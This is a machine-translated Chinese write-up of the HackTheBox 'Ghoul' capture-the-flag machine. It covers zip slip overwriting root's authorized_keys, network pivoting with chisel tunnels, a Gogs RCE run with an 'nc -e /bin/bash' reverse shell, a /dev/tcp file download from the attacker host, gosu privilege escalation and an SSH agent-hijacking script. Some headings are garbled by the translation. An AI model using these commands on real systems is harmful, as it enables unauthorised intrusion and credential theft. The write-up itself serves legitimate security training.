# 黑客盒子——食尸鬼

> 原文：<https://infosecwriteups.com/hackthebox-ghoul-deb77ff43326?source=collection_archive---------0----------------------->

这是一篇关于我如何解决黑客盒子里的食尸鬼的文章。

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

像往常一样，我试图解释我是如何从机器上理解这些概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。



hackthebox.eu

# **关于盒子**

食尸鬼在黑客盒子上的评分很高。这是东京食尸鬼的灵感，它涉及旋转和隧道。这也迫使你记下旅途中遇到的许多事情。总的来说，我学到了技术/攻击，并且能够学到很多关于 SSH 的知识。网络图如下所示:



# # TL 速度三角形定位法(dead reckoning)

```
**Initial foothold -> User:** An authenticated blog with guessable credentials leads to an image and zip upload page. I perform a zip slip attack to overwrite root’s authorized keys to ssh as root in the machine Aogiri. 
**Root:** I then enumerate and find a password for an ssh key to log in to kaneki-pc, which has access to a Gogs server. I tunnel the Gogs server to my machine and perform an RCE exploit, leading to 7z file which contains the root password for the kaneki-pc. I then hijack an SSH session on port 2222 to get root.txt.
```

# #最初的立足点

我首先对机器执行 nmap 扫描

```
nmap -sV -sC -oA nmap/initial 10.10.10.101
```

结果是:

```
Nmap scan report for 10.10.10.101
Host is up (0.30s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c1:1c:4b:0c:c6:de:ae:99:49:15:9e:f9:bc:80:d2:3f (RSA)
|_  256 a8:21:59:7d:4c:e7:97:ad:78:51:da:e5:f0:f9:ab:7d (ECDSA)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Aogiri Tree
2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 63:59:8b:4f:8d:0a:e1:15:44:14:57:27:e7:af:fb:3b (RSA)
|   256 8c:8b:a0:a8:85:10:3d:27:07:51:29:ad:9b:ec:57:e3 (ECDSA)
|_  256 9a:f5:31:4b:80:11:89:26:59:61:95:ff:5c:68:bc:a7 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Aogiri
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88 - Error report
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

我注意到有 2 个 ssh 服务(端口 22 和 2222)和 2 个 web 页面(端口 80 和端口 8080)。请注意，端口 8080 要求领域 Aogiri 上的基本身份验证。我首先检查端口 80。

## 端口 80


在列举端口 80 时，我感兴趣的是一个名为 Admin 的用户写的博客。因此，如果我遇到一个登录页面，我会尝试使用 admin 用户名和一些常用密码。



在端口 80 上运行 dirsearch.py:



我找到一个/users/login.php。



尝试通用凭据:



管理员:管理员

我已经尝试了其他凭据，但不起作用。我移动到 8080 端口。

## 端口 8080

正在检查端口 8080，它要求对领域 Aogiri 进行身份验证。



我检查了端口 8080，它需要认证。尝试普通密码，组合管理:管理工作。

## 网页(端口 8080)


图像上传


Zip 上传

我看到它允许上传图片和压缩文件到服务器。我首先上传一张简单的照片，并检查它允许上传的图像格式。我试着上传一张简单的 jpeg 图片。



成功上传后，页面被重定向到/img。


然后，我尝试一个 GET 请求:



不支持 HTTP 方法 get。

然后我检查上传是如何进行的:



没什么有趣的。因为不允许 GET，所以我通过 Burp 检查哪些 HTTP 动词是允许的。我发送了一个选项请求来检查哪些 HTTP 动词是允许的。只允许 POST、TRACE 和 OPTIONS 动词:


我还会检查上传的内容是否放在/img 下。



我可以尝试上传文件，但如果我不知道我是否能访问这些文件，那就没有意义了。然后，我继续进行 zip 上传。我创建了一个包含图片的 zip 文件。



然后，我尝试将 zip 文件上传到服务器。



我测试了上传是否到/upload/images.zip。



意识到我可以上传文件，但不能识别它被上传到哪里，我检查它是否容易受到 zip slip 攻击。我最近在另一个盒子里使用了这个技术。

## 拉链条

我在这台机器上使用了 zip slip 攻击。基本上:

```
"Zip Slip is a form of directory traversal that can be exploited by  extracting files from an archive. The premise of the directory traversal  vulnerability is that an attacker can gain access to parts of the file  system outside of the target folder in which they should reside."
```

知道我可以上传 zip 文件，我寻找例子并找到了这个链接:

[https://github.com/snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)

您可以在此阅读更多关于 zip slip 攻击的信息:

[](https://snyk.io/research/zip-slip-vulnerability) [## Snyk - Zip Slip 漏洞

### Zip Slip 是一个广泛存在的任意文件覆盖关键漏洞，通常会导致远程命令…

snyk.io](https://snyk.io/research/zip-slip-vulnerability) 

以下是来自 Github 库的示例:



然后我试着上传一个 zip 文件，希望它能在服务器上“写”文件。目的是覆盖根用户的授权密钥。

## **创建密钥对**

我使用 ssh-keygen 创建了一个密钥对。这将产生一个私钥和公钥对。注意，为了能够在机器中使用 ssh，您的公钥应该是用户主目录下 authorized_keys 文件中的一个条目。



然后，我下载了 zip-slip.zip 示例，创建了一个 authorized_keys 文件，并将其添加到下载的归档文件中，然后为 zip-slip.zip 攻击重命名该文件。



然后，我创建了一个 authorized_keys 文件，并将其添加到下载的归档文件中，然后将该文件重命名为 zip-slip.zip 攻击。

重命名文件:

```
root@kali:~/Documents/htb/boxes/ghoul/zipslip# mv ghoul_htb.pub authorized_keys
```

将文件添加到 zip-slip 存档:

```
 root@kali:~/Documents/htb/boxes/ghoul/zipslip# 7z a zip-slip.zip authorized_keys                                                             
<-redacted-> 
```

然后，我检查 zip 文件的内容:

```
root@kali:~/Documents/htb/boxes/ghoul/zipslip# 7z l zip-slip.zipDate      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-04-15 22:04:42 .....           20           20  ../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../.
./../../../../../../../tmp/evil.txt
2019-10-03 01:25:32 .....          563          459  authorized_keys
2018-04-15 19:04:29 .....           19           19  good.txt
------------------- ----- ------------ ------------  ------------------------
2019-10-03 01:25:32                602          498  3 files
```

我用适当的文件名重命名了归档中的 authorized_keys 文件。

```
root@kali:~/Documents/htb/boxes/ghoul/zip# 7z rn zip-slip.zip authorized_keys '../../../../../../../../../../root/.ssh/authorized_keys'
```

然后，我列出 zip 文件的内容，检查我是否正确地重命名了该文件:



由于一切正常，我上传了 zip 文件:


然后，我尝试使用私钥 ssh 到这个盒子，然后用我用来保护它的密码进行验证，我以“root@Aogiri”的身份进入



我检查/root/目录中有什么。



然后，我检查/home/ director 中的用户是谁:

```
root@Aogiri:/home# ls -al
total 36
drwxr-xr-x 1 root   root   4096 Dec 13  2018 .
drwxr-xr-x 1 root   root   4096 Dec 13  2018 ..
drwx------ 1 Eto    Eto    4096 Dec 13  2018 Eto
drwx------ 1 kaneki kaneki 4096 Dec 13  2018 kaneki
drwx------ 1 noro   noro   4096 Dec 13  2018 noro
root@Aogiri:/home#
```

我发现有 3 个用户文件夹，即 Eto，kaneki 和 noro。

## 兼木

我检查了 kaneki 文件夹里的东西。



阅读 kaneki 文件夹下的文件，我可以找到 user.txt 和一些关于 Gogs 漏洞的注释，以及一个测试帐户的存在。它还说一个文件服务器在服务器的网络中，kaneki 可以访问它。

```
root@Aogiri:/home/kaneki# cat note.txt 
Vulnerability in Gogs was detected. I shutdown the registration function on our server, please ensure that no one gets access to the test accounts.
root@Aogiri:/home/kaneki# cat notes 
I've set up file server into the server's network ,Eto if you need to transfer files to the server can use my pc.
DM me for the access.
root@Aogiri:/home/kaneki# wc -c user.txt 
33 user.txt
root@Aogiri:/home/kaneki# cat user.txt 
7c0f11041..... 
```

我检查了 kaneki 的 authorized_keys，看看谁可以作为 kaneki 在这台机器上 ssh。



我看到一个条目 kaneki_pub@kaneki-pc。这表示名为 kaneki_pub 的用户可以通过 ssh 登录到该机器。我记下了用户名 kaneki_pub。

## european theatre of operations 欧洲战区

列举 Eto 的主目录，我没有发现什么有用的东西:



```
root@Aogiri:/home/Eto# cat alert.txt 
Hey Noro be sure to keep checking the humans for IP logs and chase those little shits down!
```

## 诺罗

枚举 noro 的目录，我看到一个待办文件。



```
root@Aogiri:/home/noro# cat to-do.txt 
Need to update backups.
```

好像还有备份。我枚举了 var 目录，并为 3 个用户的密钥找到了备份。我检查了 pdf 和 xlsx 文件，但我认为他们是兔子洞。

```
root@Aogiri:/var# ls
backups  cache  docs  lib  local  lock  log  mail  opt  run  spool  tmp  www
root@Aogiri:/var# cd backups/
root@Aogiri:/var/backups# ls -alR
.:
total 24
drwxr-xr-x 1 root root 4096 Dec 13  2018 .
drwxr-xr-x 1 root root 4096 Dec 13  2018 ..
drwxr-xr-x 1 root root 4096 Dec 13  2018 backups./backups:
total 3852
drwxr-xr-x 1 root root    4096 Dec 13  2018 .
drwxr-xr-x 1 root root    4096 Dec 13  2018 ..
-rw-r--r-- 1 root root 3886432 Dec 13  2018 Important.pdf
drwxr-xr-x 2 root root    4096 Dec 13  2018 keys
-rw-r--r-- 1 root root     112 Dec 13  2018 note.txt
-rw-r--r-- 1 root root   29380 Dec 13  2018 sales.xlsx./backups/keys:
total 24
drwxr-xr-x 2 root root 4096 Dec 13  2018 .
drwxr-xr-x 1 root root 4096 Dec 13  2018 ..
-rwxr--r-- 1 root root 1675 Dec 13  2018 eto.backup
-rwxr--r-- 1 root root 1766 Dec 13  2018 kaneki.backup
-rwxr--r-- 1 root root 1675 Dec 13  2018 noro.backup
```

正在检查这些备份文件是什么:

```
root@Aogiri:/var/backups/backups/keys# file *
eto.backup:    PEM RSA private key
kaneki.backup: PEM RSA private key
noro.backup:   PEM RSA private key
root@Aogiri:/var/backups/backups/keys#
```

它们是 PEM RSA，可以使用命令和在 login.php 找到的密码将其转换为 RSA 私钥。但是我不需要这些文件，因为我已经可以访问它们的 rsa 私钥:

```
openssl rsa -in *backupfile* -out *outputfile* 
```

然后我检查 html 文件夹。这些是端口 80 上的文件。



然后我开始在 http://10.10.10.101 url 下检查这些文件。secret.php 这个文件很有趣。



secret.php

然后我检查其他 php 文件，这是在 http://10 . 10 . 10 . 101/users/log in . PHP 下找到的 login.php 文件，我找到了 **kaneki:123456** 、 **noro:password123** 和 **admin:abcdef** 的凭证。注意，在 Noro 说他需要访问远程服务器之后，Kaneki 说了一个“ **ILoveTouka** ”。



login.php

在这之后，我意识到我可能跳过了一些步骤，我尝试了在 login.php 文件上找到的密码，备份密钥文件可以使用除用户 kaneki 之外的密码解密。登录到/users/login.php 会显示这个页面:


检查其他 php 文件，我发现没有什么有用的。然后我决定继续前进。

## 旋转到 172.20.0.150:

然后我检查我的 IP 地址，看我在哪个子网:


ifconfig

我注意到我的 IP 地址是 172.20.0.10。然后，我执行 ping 扫描来查看活动的主机。我发现一个新的 IP 地址是 172.20.0.150。

```
root@Aogiri:/# for ip in $(seq 1 254) ; do (ping -c 1 172.20.0.$ip | grep "bytes from"| cut -d':' -f1 | cut -d' ' -f4 &); done
172.20.0.1
172.20.0.10
**172.20.0.150**
```

我从这里上传了一个 nmap 静态二进制文件，这样我就可以枚举开放的端口。请注意，这也可以使用 for 循环来完成:

[https://github . com/Andrew-d/static-binaries/blob/master/binaries/Linux/x86 _ 64/nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

我使用 SCP 将它上传到机器，并上传到 tmp 目录:

```
scp -i ghoul_htb nmap root@10.10.10.101:/tmp
```

运行 nmap:



请注意，它会查找机器中不存在的文件。我可以选择复制/etc/services 中的内容，或者执行 SSH 远程端口转发，这样我就可以从机器本地 nmap 主机。在发现 SSH 在 172.20.0.150 上是开放的之后，我查看了我的笔记，记得有一个来自 kaneki-pc 的 kaneki_pub 用户。然后，我尝试使用 kaneki 的私有密钥进行 ssh，并使用字符串“ILoveTouka”作为密码，这是之前 secrets.php 文件中的内容，它成功了！



## 金木电脑

读取 to-do.txt 文件中的内容:

```
kaneki_pub@kaneki-pc:~$ cat to-do.txt
Give AogiriTest user access to Eto for git.
```

所以我为 git 找到了另一个用户名 *AogiriTest* 。

正在检查/home 目录:



我找到两个用户， **kaneki_adm** 和 **kaneki_pub** 。

然后，我检查接口的配置:



请注意，eth1 接口的 ip 地址为 172.18.0.200。然后，我又运行了一次 ping 扫描，检查 172.18.0 网络上的主机。请注意，172.18.0.2 上还有另一台主机。

```
kaneki_pub@kaneki-pc:~$ for ip in $(seq 1 254); do (ping -c 1 172.18.0.$ip | grep "bytes from" |cut -d ":" -f1 | cut -d " " -f4 &) ; done
172.18.0.1
**172.18.0.2**
172.18.0.200
```

然后，我通过执行另一个 SCP 将 nmap 从 Aogiri 主机上传到 kaneki-pc，并将其保存到 tmp 目录:

```
scp -i /home/kaneki/.ssh/id_rsa nmap kaneki_pub@172.20.0.150:/tmp
```

正在检查 kaneki-pc 的/tmp 目录:



我看到 nmap 被转移了，还有一些奇怪的文件夹名字叫 ssh-XXXXXXX。我继续我的 nmap:



在 172.18.0.2 上运行 nmap，我找到了 2 个端口。注意我一直在等 Gogs 服务出来，Gogs 服务一般运行在 3000 端口。

然后，我试图检查端口 3000 给出了什么:



所以端口 3000 是 Gogs 服务器。知道有人提到了高格的 RCE，我就去找 RCE。我发现这个:

[https://github.com/TheZ3ro/gogsownz](https://github.com/TheZ3ro/gogsownz)

## 隧道到 172.18.0.2:

由于我们无法从 Kali 机器访问 172.18.0.2 主机，并在容器上利用漏洞，于是我决定创建一个到 172.18.0.2 端口 3000 的隧道。因为我们没有 Gogs 服务器的 ssh 凭证，所以我使用 chisel。

[](https://github.com/jpillora/chisel) [## 凿子/凿子

### Chisel 是一个快速的 TCP 隧道，通过 HTTP 传输，通过 SSH 保护。单一可执行文件，包括客户端和…

github.com](https://github.com/jpillora/chisel) 

我第一次知道凿子是在❤.的 ippsec 观看他在 red 上的精彩视频(他在视频中进行了大量的隧道挖掘)。如果你想要一份隧道挖掘的书面形式，你也可以参考这个:

[https://0x df . git lab . io/2019/01/28/tunneling-with chisel-and-SSF . html](https://0xdf.gitlab.io/2019/01/28/tunneling-with-chisel-and-ssf.html)

回到过去，我首先在我的机器上下载了 chisel 二进制文件，并减少了二进制文件，以简化文件的传输(也有视频和关于如何做的文章)。

我首先将 chisel 二进制文件转移到 kaneki-pc 容器上:



凿子转移

我现在转发 172.18.0.2 主机的端口 3000。



基本上，我告诉 chisel 客户端(kaneki-pc)连接到我的 chisel 服务器(我的主机),任何发送到端口 3001 的流量将被转发到主机 172.18.0.2 上的端口 3000。图表看起来像这样:



绿线是 chisel 连接，红线表示发送到 localhost 3001 的任何流量都将被转发到 Gogs 服务器的端口 3000。

访问本地主机:3001:



我还不能尝试 RCE，因为我没有 AogiriTest 用户的密码。我在 Aogiri 容器的/usr/share/Tomcat 7/conf/Tomcat-users . XML 中枚举并找到了一个密码。

```
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/> 
  <user username="role1" password="<must-be-changed>" roles="role1"/>
--><user username="admin" password="admin" roles="admin" />
  <role rolename="admin" />
  <!--<user username="admin" password="**test@aogiri123**" roles="admin" />
  <role rolename="admin" />-->
</tomcat-users>
```

然后我试着用这个密码登录 Gogs 服务，它成功了！



在尝试 RCE 之前，我首先通过 Burp 调查身份验证是如何发送的:



注意，它使用了 cookie i_like_gogits，可以在 RCE 中使用。查看 gogsownsz.py 的帮助:



## Gogs 上的反向外壳:

由于 Gogs 服务器与我们的主机没有连接，所以我首先尝试将 ncat 的一个静态二进制文件上传到 kaneki-pc，它会捕获 shell。

```
toor@CJ:~/ghoul$ nc -nlvp 9001 < ncat
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.10.101 38252 received!
toor@CJ:~/ghoul$ md5sum ncat
1b3b9f07acfe786081d4e52ad67e0983  ncat kaneki_pub@kaneki-pc:/tmp$ cat < /dev/tcp/10.10.14.33/9001 > ncat
^C
kaneki_pub@kaneki-pc:/tmp$ md5sum ncat
1b3b9f07acfe786081d4e52ad67e0983  ncat
kaneki_pub@kaneki-pc:/tmp$
```

现在我在 kaneki-pc 上有了 ncat，我用语法尝试了 RCE

```
python3 gogsownz.py [http://localhost:3000/](http://localhost:3000/) -v -C "AogiriTest:test@aogiri123" --rce "nc 172.18.0.2 9001 -e /bin/bash" -n i_like_gogits
```



我现在在 Gogs 服务器上获得了一个 shell！枚举，我看到我是 Git 用户。我通过调用以下命令快速检查设置了 setuid 的二进制文件:

```
find / -perm -u=s -type f 2>/dev/null
```



/usr/sbin/gosu 二进制文件非常突出。在网上查看后，我找到了这个知识库:

【https://github.com/tianon/gosu 

检查其用法:



我尝试以 root 用户身份运行命令，并看到它工作正常。我列出了/root/目录下的文件:

```
 /usr/sbin/gosu root bash -c 'whoami'
root/usr/sbin/gosu root bash -c 'ls -al /root/'
total 128
drwx------    1 root     root          4096 Dec 29  2018 .
drwxr-xr-x    1 root     root          4096 Dec 13  2018 ..
lrwxrwxrwx    1 root     root             9 Dec 29  2018 .ash_history -> /dev/null
lrwxrwxrwx    1 root     root             9 Dec 29  2018 .bash_history -> /dev/null
-rw-r--r--    1 root     root        117507 Dec 29  2018 aogiri-app.7z
-rwxr-xr-x    1 root     root           179 Dec 16  2018 session.sh
```

看到有一个有趣的 7z 文件，然后我将它导出到我的本地机器上。

## 调查青鸟 app

我首先运行 git log 并看到一些提交:

```
git log 
```



枚举更多，以显示涉及指定路径的提交，以及内部相同指定路径的差异，我调用:

```
git log -p .
```



我现在看到了 kaneki 的密码。我试过到 kaneki-pc 提升为 kaneki_adm 和 kaneki_pub，都不行。即使是对根来说。

然后我通过检查 ORIG_HEAD 来列举:

```
git show ORIG_HEAD
```



我看到更多的凭证。我尝试了每个用户的密码，结果是:

```
 **root:7^Grc%C\7xEQ?tb4**
```



太好了。我现在是 root 用户，可以读取一个名为 root.txt 的文件，但它是一个“巨魔”..😫

我首先检查 kaneki_adm 目录中的内容:



kaneki_adm

然后，我检查 tmp 文件夹中的内容，看到文件夹奇怪的目录从 ssh 开始。



然后，我运行 ps aux 来查看哪些进程正在运行:



请注意，有一个到端口 2222 的 ssh 连接正在启动，但是该进程在一段时间后终止。

# SSH-劫持

我参考了这篇博客来了解关于这次攻击的更多信息:

[https://xorl . WordPress . com/2018/02/04/ssh-jacking-for-lateral-movement/](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)

```
When you connect to a remote system you can choose if you want your  ssh-agent to be available there too using the ForwardAgent directive. By  forwarding the agent you can move around systems without having to copy  keys everywhere or re-authenticating manually. However, this has a  downside too. **If an attacker has root access on any of the systems from  which you have forwarded your agent, he can re-use that socket file to  open new SSH sessions with your information.**
```

我可以尝试使用 root 用户使用的凭证在端口 2222 上进行 ssh，通过将代理的 SSH_AUTH_SOCK 存储到我的 env 中并将其添加到我的 ssh-agent 中来劫持代理。我首先将 pspy64s 的二进制文件放到 kaneki-pc 上，并运行它来监视进程发生的时间。



当这个过程发生时，我将检查/tmp 文件夹，查找在 ssh 连接发生时出现的代理。请注意，当我再次检查目录时，这些代理消失了。



然后我看到连接每 6 分钟发生一次:



然后，我等待连接启动的时间间隔，并调用:

```
SSH_AUTH_SOCK=/tmp/ssh-XXXXXX/agent.XXX ssh root@172.18.0.1 -p 2222
```

我可以登录了！


现在可以读取 root.txt..😅

```
root@Aogiri:~# cat root.txt
7c0f11041f....
```



您也可以通过这个简单的脚本编写脚本并自动执行劫持来实现这一点:

```
#!/bin/bashwhile true; do agent=$(find . -name agent.*)
        if [[$agent != '']]; then
        echo "$agent"
        break
        fi
done
SSH_AUTH_SOCK=$agent ssh root@172.18.0.1 -p 2222
```

注意这样会触发很多进程，而且会很吵！



我就是这样解决了黑客盒子里的食尸鬼！这是一个非常漫长的旅程，但绝对值得！感谢阅读！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)